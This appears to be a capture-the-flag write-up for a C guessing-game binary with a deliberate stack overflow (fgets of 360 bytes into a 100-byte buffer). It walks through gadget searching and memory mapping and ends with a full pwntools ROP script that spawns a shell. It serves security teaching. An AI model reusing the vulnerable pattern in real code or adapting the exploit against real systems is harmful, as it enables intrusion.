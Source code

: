 # Guessing Game 1

> I made a simple game to show off my programming skills. See if you can beat
> it!

Program

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>

#define BUFSIZE 100


long increment(long in) {
	return in + 1;
}

long get_random() {
	return rand() % BUFSIZE;
}

int do_stuff() {
	long ans = get_random();
	ans = increment(ans);
	int res = 0;

	printf("What number would you like to guess?\n");
	char guess[BUFSIZE];
	fgets(guess, BUFSIZE, stdin);

	long g = atol(guess);
	if (!g) {
		printf("That's not a valid number!\n");
	} else {
		if (g == ans) {
			printf("Congrats! You win! Your prize is this print statement!\n\n");
			res = 1;
		} else {
			printf("Nope!\n\n");
		}
	}
	return res;
}

void win() {
	char winner[BUFSIZE];
	printf("New winner!\nName? ");
	fgets(winner, 360, stdin);
	printf("Congrats %s\n\n", winner);
}

int main(int argc, char **argv){
	setvbuf(stdout, NULL, _IONBF, 0);
	// Set the gid to the effective gid
	// this prevents /bin/sh from dropping the privileges
	gid_t gid = getegid();
	setresgid(gid, gid, gid);

	int res;

	printf("Welcome to my guessing game!\n\n");

	while (1) {
		res = do_stuff();
		if (res) {
			win();
		}
	}

	return 0;
}
```

## Solution

First step is to find the answer, which is simple enough through trial and
error. Next is to abuse the potential overflow in the `fgets` call in `win`,
which is a call with `size=360` on a buffer of size `BUFSIZE=100`. Inspecting
the file we see it is statically linked:

```
$ file vuln
vuln: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=94924855c14a01a7b5b38d9ed368fba31dfd4f60, not stripped
```

Though the stack is not executable:

```
$ execstack --query vuln
- vuln
```

We could try [Return Oriented
Programing](https://en.wikipedia.org/wiki/Return-oriented_programming) (ROP)
here. We will piece together a program to spawn a shell based on instructions
we can find in the binary (of which there should be plenty since it's
statically linked). [`ropper`](https://pypi.org/project/ropper/) is a good
program for investigating, for example:

```
$ ropper --file vuln --search 'pop rdx; ret'
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdx; ret

[INFO] File: vuln
0x000000000044cc26: pop rdx; ret;
```

It should be simple enough to craft a syscall to `sys_execve` to spawn our
shell, something similar to `execve("/bin/sh", NULL, NULL)`. Firstly, let's
find out how much we need to overflow to the return address we want to
overwrite:

```
0000000000400c40 <win>:
  400c40:	55                   	push   rbp
  400c41:	48 89 e5             	mov    rbp,rsp
  400c44:	48 83 ec 70          	sub    rsp,0x70
```

So `0x78` bytes should be sufficient. Next, our planned syscall requires a
pointer to a string, let's find somewhere to store this string. Investigating
the program's memory map:

```
$ gdb ./vuln
(gdb) break main
(gbd) run
(gdb) info proc mapping
process 1111
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
            0x400000           0x4b7000    0xb7000        0x0 /home/user/vuln
            0x6b7000           0x6bd000     0x6000    0xb7000 /home/user/vuln
            0x6bd000           0x6e1000    0x24000        0x0 [heap]
      0x7ffff7ffa000     0x7ffff7ffd000     0x3000        0x0 [vvar]
      0x7ffff7ffd000     0x7ffff7fff000     0x2000        0x0 [vdso]
      0x7ffffffdc000     0x7ffffffff000    0x23000        0x0 [stack]
```

So we could use `0x6bd000` as an address to store our string. Given we can
find basically any instruction we need, crafting our payload is just a matter
of tracking down what we need:

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./vuln")
rop = ROP(elf)

pop_rdx = (rop.find_gadget(["pop rdx", "ret"]))[0]
pop_rax = (rop.find_gadget(["pop rax", "ret"]))[0]
pop_rsi = (rop.find_gadget(["pop rsi", "ret"]))[0]
pop_rdi = (rop.find_gadget(["pop rdi", "ret"]))[0]
syscall = (rop.find_gadget(["syscall"]))[0]

p64 = make_packer(64, endian="little", sign="unsigned")
sys_execve_code = 0X3b

payload = (
    cyclic(0x78)                # overflow until address
    + p64(pop_rdx)
    + p64(0X0068732f6e69622f)   # "/bin/sh\0"
    + p64(pop_rdi)
    + p64(0X6bd000)             # start of heap, somewhere for the string
    + p64(0x436393)             # mov qword ptr [rdi], rdx ; ret (couldn't find with pwn)
    + p64(pop_rsi)
    + p64(0)
    + p64(pop_rdx)
    + p64(0)
    + p64(pop_rax)
    + p64(sys_execve_code)
    + p64(syscall)              # syscall == execve("/bin/sh\0", NULL, NULL);
)

p = process("./vuln")
p.recvuntil("guess?\n")
p.sendline("84")
p.recvuntil("\nName? ")
p.sendline(payload)
p.interactive()
```
